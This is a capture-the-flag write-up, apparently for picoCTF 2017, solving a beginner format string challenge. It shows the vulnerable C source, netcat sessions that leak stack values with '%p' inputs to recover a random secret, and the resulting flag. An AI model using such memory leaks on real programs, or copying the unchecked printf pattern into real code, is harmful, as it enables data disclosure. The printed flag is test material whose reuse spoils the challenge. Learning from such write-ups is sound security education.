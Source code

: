 # Ive Got A Secret
---
### Question
Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:58570.

### HINTS

This is a beginning format string attack.

---
# Solution

1. It was simple as they have given us the hint that ```format string``` attack/exploit will be used here.
   
2. Anyways we got two files again.
   ```bash
   secret secret.c
   ```
   
   The C code looks like this:
   ```C
    #include <stdio.h>
    #include <fcntl.h>
    #include <unistd.h>
    #include <stdlib.h>
    
    #define BUF_LEN 64
    char buffer[BUF_LEN];
    
    int main(int argc, char** argv) {
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd == -1){
            puts("Open error on /dev/urandom. Contact an admin\n");
            return -1;
        }
        int secret;
        if(read(fd, &secret, sizeof(int)) != sizeof(int)){
            puts("Read error. Contact admin!\n");
            return -1;
        }
        close(fd);
        printf("Give me something to say!\n");
        fflush(stdout);
        fgets(buffer, BUF_LEN, stdin);
        printf(buffer);
    
        int not_secret;
        printf("Now tell my secret in hex! Secret: ");
        fflush(stdout);
        scanf("%x", &not_secret);
        if(secret == not_secret){
            puts("Wow, you got it!");
            system("cat ./flag.txt");   
        }else{
            puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
        }
    
        return 0;
    }
   ```
   
   Now as given in the hint format string attack.Then i quickly googled it out and saw this [Website](http://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/). So now lets try to do it.
   
   ```bash
    $nc shell2017.picoctf.com 58570
    Give me something to say!
    %p %p %p %p %p %p
    0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0x4e1e5a04
    Now tell my secret in hex! Secret: 0xf7fc7c20
    As my friend says,"You get nothing! You lose! Good day, Sir!"
    
    $nc shell2017.picoctf.com 58570
    Give me something to say!
    %p %p %p %p %p %p
    0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0x7cb550cf
    Now tell my secret in hex! Secret: 0x8048792
    As my friend says,"You get nothing! You lose! Good day, Sir!"
    
    $nc shell2017.picoctf.com 58570
    Give me something to say!
    %p %p %p %p %p %p
    0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0x979bf793
    Now tell my secret in hex! Secret: 0xffffdd34
    As my friend says,"You get nothing! You lose! Good day, Sir!"
    
    $nc shell2017.picoctf.com 58570
    Give me something to say!
    %p %p %p %p %p %p
    0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0xae046ce2
    Now tell my secret in hex! Secret: 0xae046ce2
    326edd4743c7046d72d29e911ae8a412
    Wow, you got it!
   ```
   
 So, i think we got the flag ```326edd4743c7046d72d29e911ae8a412```.
 
 Hope you liked it
 
   ~Thanks
   
   [@spiritedwolf](https://github.com/spiritedwolf)

---

